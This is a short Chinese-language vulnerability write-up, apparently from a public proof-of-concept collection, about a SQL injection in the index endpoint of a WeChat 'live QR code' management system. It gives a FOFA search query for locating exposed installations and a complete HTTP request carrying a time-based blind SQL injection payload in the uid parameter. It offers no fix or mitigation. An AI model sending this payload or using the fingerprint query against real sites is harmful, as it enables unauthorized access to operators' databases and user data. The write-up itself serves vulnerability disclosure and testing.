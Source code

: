 # 微信活码系统index存在SQL注入漏洞

# 一、漏洞简介
微信活码系统是基于微信平台的 二维码只管理系统，旨在帮助企业和个人实现更高效的社群运营和流量管理。可以将多个二维码合并成一个二维码的工具，用户扫描该固定二维码后，可以看到一个微信二维码(可以是群二维码，也可以是个人名片二维码)，而这些二维码可以在后台随时进行更换。通过这种方式，微信活码系统有效避免了因频繁更换二维码导致的流量丢失，提高了社群运营的效率。微信活码系统index存在SQL注入漏洞

# 二、影响版本
+ 微信活码系统

# 三、资产测绘
+ fofa `body=".qn-user-login"`
+ 特征

![1732275497192-0cf606aa-431c-438b-b554-a0b15c384708.png](./img/wJghLzqoOCcyak_L/1732275497192-0cf606aa-431c-438b-b554-a0b15c384708-812866.png)

# 四、漏洞复现
```java
GET /ucenter/index/?uid=1)%20AND%20(SELECT%203460%20FROM%20(SELECT(SLEEP(5)))RkHL)%20AND%20(1015=1015 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
```

![1732275546711-b42add2f-5705-45a8-9128-49d5d4bdc35e.png](./img/wJghLzqoOCcyak_L/1732275546711-b42add2f-5705-45a8-9128-49d5d4bdc35e-612056.png)



> 更新: 2024-11-27 10:00:05  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gn9zt676czv8oypd>